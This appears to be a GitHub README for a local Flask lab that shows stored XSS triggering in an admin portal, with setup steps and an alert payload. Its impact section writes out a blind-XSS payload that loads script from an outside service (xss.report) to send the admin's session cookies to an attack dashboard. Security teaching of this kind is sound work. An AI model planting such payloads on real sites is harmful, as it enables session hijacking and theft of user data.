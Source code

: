<h1>Stored XSS In An Admin Portal</h1>

<h2>Overview</h2>

Stored-XSS can be a serious vulnerability, especially if your XSS Payloads trigger in an admin portal. Imagine your stored-blind xss payloads triggering in an admin portal, and you then recieve all of the
admin's session cookies. You could Session Hijack the administrator and cause negative effects for the website. And this all happened because someone forgot to sanitize user input somewhere.

Stored-XSS is fun to test for in Web Security, so I built a little python program that uses Flask to spin up a simple little application that let's you see what it looks like when your stored-xss payloads
trigger in an admin portal.

<h2>How To Use The Stored XSS Test Program</h2>

1. Copy, Create and Start the python file in my Stored-XSS Repository labeled 'stored-xss-in-admin-portal.py'. Start the python file with python or python3. Reference the image below.

![start-stored-xss-test-suite](https://github.com/user-attachments/assets/cf4f1b94-4ac0-41e8-940c-a974941adea3)


2. After starting the Stored XSS In Admin Portal program, open your browser and visit http://127.0.0.1:5000. Reference the image below to see the program opened in my browser.

![open-stored-xss-app-in-browser](https://github.com/user-attachments/assets/b0268ed0-3b6e-4983-93b2-448350682e32)

3. Store an xss payload in the 'Send Message' box, and then press send. You can test out this payload ```test';"/><img/src/onerror=alert(0)>``` Reference the image below.

![storing-an-xss-payload](https://github.com/user-attachments/assets/b0621f81-47c4-44ed-a4d0-6abc7e75a20b)

4. After your xss payload is stored, notice that a javascript alert pops up on your screen. Exit the javascript alert and notice your payload is stored in the page source. Reference the image below.

![xss-execution-after-payload-storage](https://github.com/user-attachments/assets/2115dcfc-5717-4983-ada7-c28aae090d98)

5. Now let's see what happens when an admin views our messages in their Admin portal. Travel to http://127.0.0.1:5000/admin in your browser, or click 'Admin Portal'. Notice that you are directed to the
   admin portal and a javascript alert box pops up on your screen. When the admin portal then loads, your xss payload is stored on the page and in the page source. Reference the image below.
   
![admin-portal-view-during-xss-execution](https://github.com/user-attachments/assets/e97e3e17-015f-4704-be0f-76f1d2fe32ae)

6. You can delete all stored messages with the 'Delete All Messages' buttons.

<h2>IMPACT - Why Is This Important?</h2>

Stored XSS can be used to steal data and hijack user sessions. To do this, instead of using ```test';"/><img/src/onerror=alert(0)>``` to make a javascript alert box pop up on the user's screen, we can use a javascript
payload that will exfiltrate the user's session cookies to our attack server. The payloads on xss.report can do this, therefor to steal steal an admin's cookies on our app at http://127.0.0.1:5000/admin, we can store a blind-xss payload like this ```test';"/><img/src/onerror=import('//xss.report/c/fakeUser')>``` on http://127.0.0.1:5000 using the 'Send Message' box, and when an admin reads the message, their data will be exfiltrated to my attack dashboard on xss.report



